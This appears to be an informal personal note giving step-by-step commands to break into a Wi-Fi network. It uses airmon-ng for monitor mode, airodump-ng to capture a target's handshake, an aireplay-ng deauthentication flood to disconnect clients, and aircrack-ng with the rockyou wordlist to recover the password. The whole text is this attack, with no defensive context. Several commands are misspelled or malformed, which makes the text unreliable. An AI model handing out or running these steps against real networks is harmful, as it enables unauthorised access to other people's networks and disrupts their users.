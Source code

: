 iwconfig for checking

enable

 airmon-ng start wlan0

airmon-ng start wlan0

suo kill all with id

 now do iwconfig

airodump -ng wlan0mon

airodump -ng -c 6 --bssid bssid wher it was showing to hack -w pas wlan0mon

new terminal

aireplay-ng -0 100 -a  bssid wlan0mon

now go back to terminal previous

after both stop ctrl c

next locate file

locate rockyou

gunzip (paste last with txt.gz)

ls

to check and get the pass file with cap

next

aircrack-ng -w /usr/share/wordlists/rockyou.txt -b bssid pass*.cap file name

after words key found

 
